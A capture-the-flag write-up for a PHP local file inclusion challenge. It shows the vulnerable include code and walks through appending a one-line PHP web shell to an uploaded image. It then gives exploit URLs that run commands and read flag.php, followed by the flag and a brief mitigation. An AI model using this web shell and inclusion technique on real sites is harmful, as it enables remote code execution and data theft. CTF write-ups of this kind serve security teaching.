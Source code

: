 ```yaml
---
html:
  embed_local_images: true
  embed_svg: true
  offline: true
export_on_save:
  html: true
print_background: true
---
```

@import "../style.less"

# Local Fun Inclusion - localo

**Category:** Web       
**Difficulty:** Easy        
**Author:** 0x4d5a      

## Description

> Recently i learned how to code in PHP. There are cool tutorials for file uploads around! [Imgur Memes](https://i.imgur.com/OV86lKu.png) have no chance vs. my cool image sharing website!
>
> Check it out at: http://lfi.hax1.allesctf.net:8081/

## Summery
The challenge is a typical LFI challenge, we are provided with a link to a website where we can upload images.
After uploading an image the website provides us a link to it.

By following the link we can see our picture:  
![](picture.png)

## Solution
The vulnerability can easily be spotted by taking a closer look ath the address bar:
![](bar.png)

`site=view.php` just looks already quite promising and with `image=uploads/57421..._1.png` we get a relative path to out file on the webserver.
Here is the important part of `index.php` to explain how LFI works.
```PHP
<?php
	$site = $_GET["site"];
	if (!isset($site))
	{
		$site = "upload.php";
	}
	if (file_exists($site))
	{
		include($site);
	}
	else
	{
		echo '<div class="container"><div class="alert alert-danger" role="alert">Site "' . htmlspecialchars($site) . '" cant be included!</div>';
	}
?>
```
In `PHP` a file may include other files, this is useful if you have large code bases or libraries.
`index.php` stores the value of the `GET` parameter `site` in the variable `$site`. If it is not set, it will default to `upload.php`. If the file exists on the filesystem it will include it. Otherwise it will throw en error to the user. We can abuse this by including our uploaded image.
We can execute arbitrary php code by appending it to the end of a valid image.
I used this for basic command execution.

`<?php echo shell_exec($_GET["cmd"]); ?>`

By using this URL:  
`http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/5742351c7ea7c738bd18084f9b08bbd3_1.jpg&cmd=ls`
We get the directory listing at the end of the page.
```
css flag.php index.php js upload.php uploads view.php
```
To get the flag we have to get the content of `flag.php`, but we don't want the content to be interpreted. This is can be achieved by using base64:     
`http://lfi.hax1.allesctf.net:8081/index.php?site=uploads/5742351c7ea7c738bd18084f9b08bbd3_1.jpg&cmd=base64%20flag.php`     
results in:
```
PD9waHAKCiRGTEFHID0gIkNTQ0d7RzN0dGluZ19SQ0VfMG5fdzNiX2lzX2FsdzR5c19jb29sfSI7
```
decoded:
```PHP
<?php

$FLAG = "CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}";
```


## Mitigation
Never include user controlled input and avoid php in general, it does stuff you would normally not expect.

## Flag
CSCG{G3tting_RCE_0n_w3b_is_alw4ys_cool}